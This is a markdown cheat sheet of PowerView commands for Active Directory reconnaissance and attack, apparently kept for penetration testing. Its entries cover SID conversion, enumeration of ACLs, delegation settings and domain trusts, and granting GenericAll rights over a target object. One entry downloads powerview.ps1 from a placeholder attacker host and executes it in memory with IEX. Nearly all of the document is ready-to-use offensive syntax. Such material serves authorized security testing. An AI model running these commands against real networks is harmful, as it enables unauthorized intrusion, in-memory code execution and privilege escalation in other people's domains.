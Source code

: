 # powerview

% ad, windows, powerview

## Convert from SID
#plateform/windows #target/remote  #cat/RECON 
```powershell
Convert-ADName -ObjectName <sid>
```

## Convert to SID
#plateform/windows #target/remote  #cat/RECON 
```powershell
ConvertTo-SID -Name <name>
```













## load from remote
#plateform/windows #target/remote  #cat/RECON 

https://github.com/PowerShellMafia/PowerSploit/

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Get User from SID
#plateform/windows #target/remote  #cat/RECON 
```powershell
ConvertFrom-SID <sid>
```

## Find user ACL 
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## Find all domain user ACL
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Add user DACL
#plateform/windows #target/remote  #cat/ATTACK
```powershell
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <current_user> -Rights All
```

## Find all groups our current user got access
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Find all users our current user got access
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## Add GenericAll to target for user
#plateform/windows #target/remote  #cat/ATTACK/EXPLOIT 
```powerview
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <user> -Rights All
```

## Find all Computer with unconstrained delegation
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainComputer -Unconstrained
```

## Get all domain trust 
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainTrustMapping
```

## Get group member
```powershell
Get-DomainGroupMember -Identity "<group|Administrators>" -Domain <domain>
```

